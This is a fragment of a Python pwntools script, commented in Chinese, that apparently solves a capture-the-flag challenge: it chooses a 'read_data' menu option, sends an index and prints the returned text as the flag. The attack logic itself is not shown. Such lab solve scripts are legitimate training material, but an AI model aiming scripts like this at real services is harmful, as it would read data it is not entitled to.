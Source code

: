 ```python
# --------------------------
p.recvuntil(b"4. Exit\n")
p.sendline(b"2")  # 选择 read_data
p.recvuntil(b"Index: ")
p.sendline(str(idx).encode())

# --------------------------
# 读取输出
# --------------------------
flag_data = b""
try:
    while True:
        chunk = p.recv(timeout=0.5)
        if not chunk:
            break
        flag_data += chunk
except EOFError:
    pass

# 解析输出
flag_text = flag_data.decode(errors='ignore')
# 去掉多余的菜单
flag_text = flag_text.replace("Data: ", "").split("1. Store data")[0].strip()

print("---- FLAG ----")
print(flag_text)
print("----------------")

p.close()

```